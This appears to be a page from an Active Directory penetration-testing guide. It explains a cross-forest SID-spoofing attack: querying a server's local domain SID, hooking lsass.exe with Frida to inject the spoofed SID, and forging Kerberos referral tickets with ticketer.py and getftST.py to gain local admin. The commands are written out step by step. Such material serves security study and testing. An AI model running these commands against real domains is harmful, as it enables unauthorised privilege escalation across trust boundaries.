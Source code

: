 The attack is conducted as follows:

1. Get the local domain's SID of the target server. This step requires Windows older than Windows 10 build 1607, or before Server 2016, as it uses MS-LSAT RPC to query the target server for the SID of its local domain, that is restricted on newer versions and requires administrative privileges on the target.
2. Spoof the local domain's SID of the target server. This steps must be run as `SYSTEM` on the trusted forest's domain controller. The Frida script used for this step is made for Windows Server 2016 version 1607. If the target runs a different version, the address offset might be different and some additional preparation must be done.
3. Forging tickets. For this step, refer to [Kerberos authentication](index#kerberos-authentication) theory chapter for more details about the trust key being used, the ticket forgery is then highly similar to the [Forging ticket](index#forging-tickets) practice part.

> [!TIP]
> For more details about how this attack works under the hood, refer to the article on [dirkjanm.io](https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/) by [Dirk-jan Mollema](https://twitter.com/_dirkjan).


> [!WARNING]
> Some considerations to reproduce the attack:
> 
> * Full control over the trusted forest is assumed.
> * Information that flows over to the trusting forest can be modified.
> * There is at least one server joined to a domain in the trusting forest (referred to as the "target server" here).


The attack can be conducted with [Dirk-jan Mollema](https://twitter.com/_dirkjan)'s [forest trust tools](https://github.com/dirkjanm/forest-trust-tools).

##### 1. Get Local Domain SID
```bash
# Obtain the local domain's SID of the target server in the trusting forest
# The hostname (Security Principal Name) of the target server is required
getlocalsid.py "trusted_domain"/"someusername"@"<target_server_FQDN or IP address>" "target_server_NETBIOS_name"
```

##### 2. Spoof the target SID
```bash
# Become a "domain" in the trusted forest using the spoofed SID so that this one is added to the authorized SIDs in the trusting domain
# Intercept the Netlogon request for an existing child domain in the trusted forset and modify the SID with the spoofed one by hooking lsass.exe when the NetrGetForestTrustInformation RPC call is made
# Notice that the SID of the child domain to look for and the local domain's SID of the target server should be modified with the right values
# This is to be run as SYSTEM on the trusted DC
python3 .\frida_intercept.py lsass.exe
```

##### 3. Get local admin on the target
```bash
# 1. Forge an inter-realm/referral ticket with the spoofed SID put as extended SID with RID 500 using the AES key of the incoming trust
ticketer.py -aesKey "AES_key_of_incoming_trust" -domain "trusted_target_domain_FQDN" -domain-sid "trusted_target_domain_SID" -user-id 1000 -groups 513 -extra-sid "<spoofed_SID>"-500 -spn "krbtgt/trusting_target_domain_FQDN" "someusername"

# 2. Request a service ticket using the forged referral ticket
# Notice that keys has to be manually modified in the getftST.py script before
KRB5CCNAME="someusername.ccache" getftST.py -spn "CIFS/target_server_FQDN" -target-domain "trusting_target_domain_FQDN" -via-domain "trusted_target_domain_FQDN" "domain/username" -dc-ip "target_DC_IP"

# 3. Use the obtained ST to access the target server as local admin
```